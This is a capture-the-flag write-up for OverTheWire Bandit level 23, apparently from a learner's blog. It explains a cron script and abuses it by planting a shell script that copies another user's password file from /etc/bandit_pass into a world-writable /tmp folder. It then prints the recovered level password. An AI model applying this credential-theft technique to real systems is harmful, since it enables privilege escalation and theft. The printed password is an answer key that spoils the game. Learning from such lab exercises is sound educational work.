

## Level Goal

> A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.  
> **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  
> **NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

> cron, crontab, crontab(5) (use "man 5 crontab" to access this)

```
> whatis cron  
cron (8)         - daemon to execute scheduled commands (Vixie Cron)

> whatis crontab  
crontab (1)      - maintain crontab files for individual users (Vixie Cron)  
crontab (5)      - tables for driving cron
```

## Helpful Reading Material

[Linux/Mac Tutorial: Cron Jobs - How to Schedule Commands with crontab - YouTube](https://www.youtube.com/watch?v=QZJ1drMQz1A)

[shellmagic.xyz - This website is for sale! - shellmagic Resources and Information.](https://shellmagic.xyz/)

[Classic SysAdmin: Understanding Linux File Permissions - Linux Foundation](https://www.linux.com/training-tutorials/understanding-linux-file-permissions/)

[Timeout Command in Linux \| Linuxize](https://linuxize.com/post/timeout-command-in-linux/)

## Solution

Since we know there is a task that is being executed by cron let's have a look at all the cron jobs on the system

```
bandit23@bandit:~$ ls /etc/cron.d/  
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
```

Since we require the password for bandit24 the task that we are looking for should be `cronjob_bandit24`

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

When we look at the contents of the file we see that there is a script that is executed on the system every minute. We can also see that bandit24 is the owner of the file.

**Note:** The @reboot is a special keyword that is used by Cron to run a job when the system is rebooted.

Let's have a look at the contents of the script and try to understand what is it trying to perform

```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let's break down the script line by line:

*   The output of `whoami` command is getting saved in a variable called `myname` (Since this script is being executed by bandit24 the output of `whoami` will be `bandit24` which is saved in the `myname` variable)
*   A folder called `bandit24` exists in the `/var/spool` directory. The working directory is changed to this folder.
*   Then a statement saying all the scripts that are present in the folder `/var/spool/bandit24` is being deleted is printed.
*   For loop is used to iterate through all the files in the directory (.\* : All files in current working directory)
*   A check is made to see if the currently selected file is called `.` or `..` if not then the rest of the code is executed. ("." means the current directory (bandit24) and ".." means the parent directory (spool))
*   The name of the currently selected file is printed and then the information about the owner of the file is saved in the variable "owner".
*   A check is made to check if the owner of the currently selected file is "bandit23". If it is then the currently selected file is executed and sent the KILL signal after waiting for 60 seconds and then deleted (-s flag in timeout command is used to specify the signal to send to the command "9" is an alias for the KILL command)

So from this, we understand that whatever file is saved in the folder "bandit24" gets executed and if the file was created by "bandit23" then after 60 seconds of execution the file is deleted. If we want the password for "bandit24" we need to write a script that will be executed from the bandit24 folder. The script that we write should get the password and save it in a location that we can access (`/tmp` directory)

Let's make a folder in the `/tmp` directory and use that as the base location for all the operations from here on out.

```
bandit23@bandit:~$ mkdir /tmp/rand

bandit23@bandit:~$ cd /tmp/rand
```

Create a file called `script.sh` using Vim or any other editor on the system and write the following code in the file.

```
#!/bin/bash  
cat /etc/bandit_pass/bandit24 > /tmp/rand/password
```

Since the output of the script is going to be saved in a file called `password` let's create a file with that name as well.

```
touch password
```

The cron job is executed by user bandit24 so when the job executes our script it is also going to have the permission of bandit24 which is not the same permission as we have because of this when the script tries to write output to the file called "password" it will fail so let's change the permission of all the files in the current folder so that any user can access them.

```
chmod 777 -R /tmp/rand
```

Finally, let's copy the script in the `bandit24` folder from where the cron job should execute our file.

```
cp script.sh /var/spool/bandit24
```



After waiting for about a minute we should see that some data has been written into the password file. Let's view the content of this file.

```
bandit23@bandit:/tmp/rand$ cat password   
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

We have found the password !!

Logout of the current session and login into the next level as bandit24

```
> ssh bandit24@bandit.labs.overthewire.org -p 2220                                                                                                         

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```